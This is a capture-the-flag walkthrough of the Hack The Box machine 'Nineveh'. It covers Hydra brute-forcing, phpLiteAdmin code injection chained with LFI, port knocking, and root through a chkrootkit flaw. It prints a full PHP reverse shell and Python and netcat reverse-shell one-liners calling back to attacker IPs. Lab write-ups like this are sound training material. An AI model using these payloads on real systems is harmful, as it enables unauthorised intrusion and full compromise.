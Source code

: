 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.43 -T5  
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/1.png">

# Enumeration
We'll start of with scanning for directories on port 80 and 443.

> I had troubles running gobuster against 443 due to an expired certificate. I tried it with dirbuster which did the trick. Later I found out that adding ```-k``` to your gopuster will disable certificate checks.

We found:
```
https://10.10.10.43/db
https://10.10.10.43/secure_notes
http://10.10.10.43/department
http://10.10.10.43/info.php

```

Hydra scan on https:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -T 64 -V -l empty
```

Hydra scan on http:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -T 64 -V -l admin
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/2.png">

Hydra bruteforced a password for each login form.

```
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
[443][http-post-form] host: 10.10.10.43   login: empty   password: password123
```

# SSH Key
The image on ```https://10.10.10.43/secure_notes``` contains a hidden messages. Running the file trough ```strings``` reveals a SSH private key.
But we are unable to connect as port 22 is closed. (At least for now)

# Exploiting RCE and LFI
After a quick Google search we learn that phpLiteAdmin version 1.9 is vulnerable to remote PHP code injection.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/3.png">

> https://www.exploit-db.com/exploits/24044

We'll have to create a database and give it a ```php``` extension. Then we'll add a table and add a php command in the filed. We will use this to test if the exploit works.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/4.png">

At this moment it's not sure how we can access the database and hereby executing the php script.
Let continue with the other login at ```http://10.10.10.43/department```. Maybe we can chain some things together.

There appears to be local file inclusion vulnerability but if we change the address we get the message saying there's no note selected. 

If we rename the database so it includes ```ninevehNotes.txt``` we hopefully can bypass this.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/5.png">

We can use the local file inclusion vulnerability in combination with the reverse code injection to run our test script:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/6.png">

# Initial Foothold
Now let's change the script to a reverse php shell in order to get a shell on the host. 

```php
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.9"; $port = 4444; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\n"; } } ?>
```

We now have a low privilege shell on the host as user ```www-date```. Running ```which python``` shows that Python is installed so we can stabilize the shell a bit:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

We can download and run ```linpeas.sh``` to do some enumerating. We spot a cronjob in ```/usr/sbin/report.sh``` but we don't have permissions to view or edit the file.

Strange thing is that we find port 22 being used but it didn't turn up during our initial portscan. Is there some mechanism preventing us from accessing it?

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/7.png">

After some digging around we found out that ```knock``` is running as ```root```. 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/8.png">

> Wiki: In computer networking, port knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s)

Now let's go look for some config files to see if we can get the knock key:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/9.png">

Found it at ```/etc/knockd.conf```. (We also found it in ```/var/mail/armois```).
Now we can use that key to open up the port for us:
```
knock 10.10.10.43 571 290 911 && ssh -i rsa amrois@10.10.10.43
```
We're now logged in as ```amrois```

# Privilege Escalation
Let's investigate the cronjob that we found earlier. It deletes every file in the ```/report``` directory. These files are generated by ```chkrootkit``` which scans files for the existence of rootkits. There is known vulnerability where we can run a file to our liking, thus granting us root privileges. 

> https://www.exploit-db.com/exploits/33899

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/10.png">

The file ```/tmp/update``` is executed by ckhrootkit as root. As this file does not currently exist, it is possible to put a bash script in its place and use it to grant us a root shell.

Let's craft our update file:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

chmod +x /tmp/update
```
Or:
```
echo -e "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4445 >/tmp/f" > /tmp/update

chmod +x /tmp/update
```
And have out netcat listener ready:
```
rlwrap nc -nlvp 4445
```
After a short moment our reverse shell as root will pop up.









